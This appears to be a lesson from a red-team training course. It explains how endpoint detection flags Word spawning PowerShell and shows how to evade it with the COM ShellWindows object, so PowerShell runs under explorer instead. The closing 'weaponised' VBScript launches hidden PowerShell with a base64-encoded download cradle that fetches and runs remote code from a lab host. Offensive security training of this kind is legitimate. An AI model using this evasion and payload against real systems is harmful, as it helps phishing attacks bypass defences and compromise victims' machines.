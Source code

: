 A subset of behavioural detections come from the parent/child relationships of running processes.  As a rule of thumb, the parent of a process is the process that started it.  As such, a process only has one parent but can have many children.   Applications such as Process Hacker visualise these relationships by their indentation.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/5e8/623/590/process-hacker.png)

  

The "details" window also shows a process' parent.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/566/d98/954/notepad.png)

  

Most user applications will run as children of explorer, as that's where they're started from.

There are many parent/child relationships that are considered highly suspicious or outright malicious - one example is with our initial access payload.  Since we executed a PowerShell one-liner via an Office macro, the instance of `powershell.exe` becomes a child of `winword.exe`.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/5c2/3d2/e88/winword-powershell.png)

![](https://files.cdn.thinkific.com/file_uploads/584845/images/4bb/548/06b/powershell.png)

  

Defender does a good job of blocking these because Word spawning PowerShell is not exactly common behaviour and is a well-known phishing tactic.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/e70/06a/307/defender.png)

  

One way around this is to find a way to execute PowerShell without it become a child of Word.  A very low-effort way to do that is with COM.  Remember the COM objects from the [DCOM lateral movement](https://training.zeropointsecurity.co.uk/manage/courses/1646245/contents/38136831) module?  Well, the same can be used for local execution too.  The nicer ones to use in this scenario are `ShellWindows` and `ShellBrowserWindow`, because they will both spawn processes under explorer.  This a simple example of spawning a hidden PowerShell process using ShellWindows.
```
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", Null, Null, Null, 0
```
  

The arguments for the ShellExecute method are documented [here](https://learn.microsoft.com/en-gb/windows/win32/shell/shell-shellexecute).

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/e15/c9d/bcd/powershell-explorer.png)

  

Here is a weaponised example:
```
Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
Set obj = shellWindows.Item()
obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0
```